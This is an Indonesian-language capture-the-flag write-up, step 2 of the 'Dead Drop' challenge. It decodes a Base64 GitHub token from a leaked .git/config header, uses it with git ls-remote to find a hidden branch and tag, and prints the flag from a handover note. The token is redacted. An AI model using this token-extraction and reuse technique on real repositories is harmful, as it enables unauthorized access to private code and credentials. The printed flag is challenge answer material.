

# Dead Drop — Cara mendapatkan flag

[← Overview](81-dead-drop.md) · [Index](index.md)

> **Langkah 2/5.** Config `.git` menyimpan token; token dipakai untuk
> membaca ref tersembunyi di remote, lalu `notes/handover.txt` memuat flag.
>
> **Berikutnya:** [Flag](81-dead-drop-03-flag.md)

## 1. Attachment

```text
infra-runbooks.zip
└── infra-runbooks/
    └── .git/config
```

## 2. Ambil token dari `.git/config`

```bash
unzip -q infra-runbooks.zip -d /tmp/dead
cd /tmp/dead/infra-runbooks
cat .git/config
```

Bagian penting:

```ini
[remote "origin"]
    url = https://github.com/netmetrics-net/infra-runbooks.git
[HTTP "https://github.com/"]
    extraheader = AUTHORIZATION: basic <BASE64>
```

Decode Base64-nya:

```bash
python3 - <<'PY'
import base64
raw = open(".git/config").read().split("extraheader = AUTHORIZATION: basic ",1)[1].split()[0]
print(base64.b64decode(raw).decode())
PY
```

Hasilnya berisi `x-access-token:github_pat_...`. Token **tidak dicetak
lengkap** di writeup ini.

## 3. Enumerasi ref remote

Dengan token tersebut, `git ls-remote` membaca ref yang tidak ada di zip:

```bash
git ls-remote "https://x-access-token:<REDACTED>@github.com/netmetrics-net/infra-runbooks.git"
```

Output nyata:

```text
3064ff7d8a90daabbc7df37286fdf10374be788b	HEAD
67e53bf02846bf10f36e28bb75997f2cfe3605ca	refs/heads/archive/q3-handover
3064ff7d8a90daabbc7df37286fdf10374be788b	refs/heads/main
67e53bf02846bf10f36e28bb75997f2cfe3605ca	refs/tags/incident-0914
```

Branch tersembunyi: **`archive/q3-handover`**, dan tag **`incident-0914`**
menunjuk commit yang sama (`67e53bf`).

## 4. Fetch dan baca handover

```bash
git fetch --tags
git show incident-0914:notes/handover.txt
```

Isi file:

```text
Handover notes - Q3
Akses staging sudah gue serahin ke tim lain.
Semua service accounts dan database credentials sudah di-revoke atau dialihkan.
Jangan tanya kenapa gue resign mendadak.

sig: NFX{g1t_c0nf1g_h34d3r_l34k_h1dd3n_br4nch_9c1e7a}
```

## 5. Flag

```text
NFX{g1t_c0nf1g_h34d3r_l34k_h1dd3n_br4nch_9c1e7a}
```

Nama flag cocok dengan langkahnya: **git config header leak → hidden branch**.

## 6. Evidence



*Terminal evidence: token dari `.git/config` dipakai untuk membaca ref
tersembunyi, lalu `notes/handover.txt` menampilkan flag. Token diredaksi.*

**Berkas mentah:**

- [`10-git-ls-remote.txt`](assets/dead-drop/10-git-ls-remote.txt)
- [`01-solve.txt`](assets/dead-drop/01-solve.txt)
